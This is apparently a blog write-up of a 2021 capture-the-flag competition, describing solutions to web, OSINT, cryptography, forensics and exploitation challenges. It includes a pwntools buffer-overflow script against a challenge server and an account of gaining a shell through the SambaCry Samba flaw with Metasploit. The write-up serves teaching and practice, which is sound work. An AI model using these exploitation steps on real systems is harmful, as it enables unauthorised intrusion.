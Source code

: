 ```yaml
---
title: "CyberTalents National CTF"
author: "Trevor saudi"
date: 2021-09-12T11:01:27.242Z
lastmod: 2022-05-24T14:32:06+03:00

description: ""

subtitle: "My team and I recently took place in the CyberTalents National CTF 2021 where we emerged 1st in Kenya :) We managed to solve all…"

image: "/posts/2021-09-12_cybertalents-national-ctf/images/1.png" 
images:
 - "/posts/2021-09-12_cybertalents-national-ctf/images/1.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/2.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/3.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/4.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/5.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/6.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/7.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/8.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/9.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/10.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/11.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/12.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/13.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/14.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/15.png"


aliases:
    - "/cybertalents-national-ctf-68f38cf7db2a"


tags:
- Forensics
- Web
- BOF
- CTF
---
```


![image](/posts/2021-09-12_cybertalents-national-ctf/images/1.png#layoutTextWidth)


My team and I recently took place in the CyberTalents National CTF 2021 where we emerged 1st in Kenya :) We managed to solve all challenges but one. Here are some of the writeups for the challenges we solved

Since the challenges are down, I will try my best to reconstruct the solutions

### Argos-web 50 pts

Argos was an ‘easy’ rated challenge, well some may tend to disagree :) This challenge was solved by @[k0imet](https://twitter.com/k0imet_)

First step involved a directory bruteforce on the challenge link, which gave us a directory **java.php .** This page contained some obfuscated javascript that handled the authentication.

```javascript
'use strict';

function _0x267a(_0x29ae1d, _0x59beb8) {
  var _0x2dca0b = _0x2dca();
  return _0x267a = function (_0x267a3d, _0x79f9b7) {
    _0x267a3d = _0x267a3d - 0x116;
    var _0x4cbcf2 = _0x2dca0b[_0x267a3d];
    return _0x4cbcf2;
  }, _0x267a(_0x29ae1d, _0x59beb8);
}
var _0x18eaa6 = _0x267a;

function _0x2dca() {
  var _0x4a962f = ['556864LePYhO', '93KGoDMv', 'wrong\x20Password', '14665ltxznd', '41121RGIWyS', '50236HEZbSV', '75OrlJRv', '260kpgQAa', '1316543gDJbid', '80096jdpdhM', 'value', '318iCKAiJ', '17205968dLvimS', 'getElementById', 'CT2021', '12SXIKHp', '232oiseyT'];
  _0x2dca = function () {
    return _0x4a962f;
  };
  return _0x2dca();
}(function (_0x59e2bc, _0x3b27b9) {
  var _0x3463b2 = _0x267a,
    _0x486916 = _0x59e2bc();
  while (!![]) {
    try {
      var _0x4861c6 = -parseInt(_0x3463b2(0x120)) / 0x1 + -parseInt(_0x3463b2(0x11d)) / 0x2 * (parseInt(_0x3463b2(0x119)) / 0x3) + -parseInt(_0x3463b2(0x121)) / 0x4 * (-parseInt(_0x3463b2(0x11e)) / 0x5) + -parseInt(_0x3463b2(0x123)) / 0x6 * (-parseInt(_0x3463b2(0x11b)) / 0x7) + -parseInt(_0x3463b2(0x117)) / 0x8 * (parseInt(_0x3463b2(0x11c)) / 0x9) + parseInt(_0x3463b2(0x11f)) / 0xa * (parseInt(_0x3463b2(0x118)) / 0xb) + -parseInt(_0x3463b2(0x116)) / 0xc * (-parseInt(_0x3463b2(0x124)) / 0xd);
      if (_0x4861c6 === _0x3b27b9) break;
      else _0x486916['push'](_0x486916['shift']());
    } catch (_0x3e62db) {
      _0x486916['push'](_0x486916['shift']());
    }
  }
}(_0x2dca, 0xc909d));
var _0xae5b = [_0x18eaa6(0x122), 'user', _0x18eaa6(0x125), 'pass', _0x18eaa6(0x126), '\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20Congratz\x20\x0a\x0a', _0x18eaa6(0x11a)];

function check() {
  var _0x105bf3 = document[_0xae5b[0x2]](_0xae5b[0x1])[_0xae5b[0x0]],
    _0xe27d13 = document[_0xae5b[0x2]](_0xae5b[0x3])[_0xae5b[0x0]];
  _0x105bf3 == _0xae5b[0x4] && _0xe27d13 == _0xae5b[0x4] ? alert(_0xae5b[0x5]) : alert(_0xae5b[0x6]);
};
```

The important function to look at is **check**. Towards the end a comparison is made and an alert is given. The alert was the error message shown if the login was correct or incorrect. We also have an array of strings and in the array is a string called ‘CT2021’

This [writeup](https://hackersdad.medium.com/cybertalents-ctf-this-is-sparta-write-up-adb1fd0263e9) has a similar challenge and we can find out which variables are being passed. CT2021 was the user and pass for the website, which upon login gives us the flag.

### Missing person-osint 50 pts

In this challenge we had trace the most recent online activity of a missing person. We were given this [https://bitly.com/3frKIAX](https://bitly.com/3frKIAX) link which led us to a twitter account with protected tweets.

![image](/posts/2021-09-12_cybertalents-national-ctf/images/2.png#layoutTextWidth)


From the new twitter url [https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455](https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455)

We can spot the username [**rzsdw2iwug77eda**](https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455)**.** So immediately my mind went to [sherlock](https://github.com/sherlock-project/sherlock).

![image](/posts/2021-09-12_cybertalents-national-ctf/images/3.png#layoutTextWidth)


We get a pastebin, with a date

![image](/posts/2021-09-12_cybertalents-national-ctf/images/4.png#layoutTextWidth)


So apparently this is a red herring. This date wasn’t the user’s most recent activity.

After thinking for a while. I decided to try and trace when the bit.ly was created. My [teammate](https://twitter.com/k0imet_) ended up uncovering the trick. By adding a ‘+’ to the end of the bit.ly link you can trace when it was first created. The date here was the solution

![image](/posts/2021-09-12_cybertalents-national-ctf/images/5.png#layoutTextWidth)


### Laggy Decoder-secure coding 100pts

In this challenge, we needed to fix the source code provided. The data being passed to the function was not being sanitized and one could achieve some XSS

Modify the utils file to . Submitting the modified code gives us the flag

![image](/posts/2021-09-12_cybertalents-national-ctf/images/6.png#layoutTextWidth)


### 64rev-cryptography 100pts

This solution was curated by @[k0imet](https://twitter.com/k0imet_) and @[mystickev](https://twitter.com/mystic_kev) . We are given a base64 encode string 
```
fdXU1Z2hSRwIzaHAxQ8zcjNIX3MxNUdqaWRmPT09XiNUdqaWRmPT09XihkZCUtVGhncz8lHJmIzmh1dGRyZ0Zmd2dlfV8zcjNIX3MxX3IzaHAxQ18zNXIzdjNSXzNscG0zNV97Z2FsZgZGRmNVxQ18zanNnaGZkYWhocaWRmPT0TWNkc2hdXU1Z2hSRwIzaHAxQ8zcjNIX3MxNfV9fM3IzSF9zMV9yM2hwMUNfMzVyM3YzUl8zbHBtMzVfX3tnYWxm==
```
Using cyberchef to decode , you can pick out bits of the flag in the output i.e 1s_H3r3

![image](/posts/2021-09-12_cybertalents-national-ctf/images/7.png#layoutTextWidth)


So our goal is to remove noise from the base64 string by removing some chunks of bytes. Removing fd at the beginning and == at the end

![image](/posts/2021-09-12_cybertalents-national-ctf/images/8.png#layoutTextWidth)


We get 2 flags. One of them was the answer

### Red pipe -machines 100pts

For this challenge, we are given an IP for a machine. We need to gain a shell and get the flag.

![image](/posts/2021-09-12_cybertalents-national-ctf/images/9.png#layoutTextWidth)


From the challenge name I suspected the solution would involve pipes. So I google the samba version of the nmap results

![image](/posts/2021-09-12_cybertalents-national-ctf/images/10.png#layoutTextWidth)


So our vuln was the is_known_pipename() from SambaCry. Luckily metasploit has this module

![image](/posts/2021-09-12_cybertalents-national-ctf/images/11.png#layoutTextWidth)


We get a shell

![image](/posts/2021-09-12_cybertalents-national-ctf/images/12.png#layoutTextWidth)


### Roony-forensics 100pts

This was a simple forensics challenge that required us to utilize a registry explorer tool to find the most recent executed application

After tons of googling. I found a tool called Registry Explorer that could simplify the solution. All I needed to do was supply a registry key to navigate the file hierachy as follows

Load the hive file

![image](/posts/2021-09-12_cybertalents-national-ctf/images/13.png#layoutTextWidth)


Interact with the hive file to get an overview of the file hierachy

![image](/posts/2021-09-12_cybertalents-national-ctf/images/14.png#layoutTextWidth)


Use the registry key — ‘recent file list’ to get the most recent executed application

![image](/posts/2021-09-12_cybertalents-national-ctf/images/15.png#layoutTextWidth)


The flag was gpedit.msc

### Ch4nger —Exploitation 50 pts easy

This solution was curated by my teammate @[gilbert](https://twitter.com/BinaryChunk). It is a simple buffer overflow challenge where we need to overwrite the return address with _0x_deadbeef

We can solve the challenge using pwntools as follows
```python3
#!/usr/bin/python3

from pwn import * 


filename = "./chall"

#io = process(filename)
io = remote("3.122.102.231", 6666)
context.clear(arch="i386")

def main():
	payload = b"A"*200 + p32(0xdeadbeef)
	io.sendline(payload)
	flag = io.recvline().decode().strip()
	log.info("The final flag is: \n\t %s" % flag)

if __name__ == "__main__":
	main()
```



These were the tricky challenges in the CTF and I hope you learned a thing or two. Follow like and share if you enjoyed :)
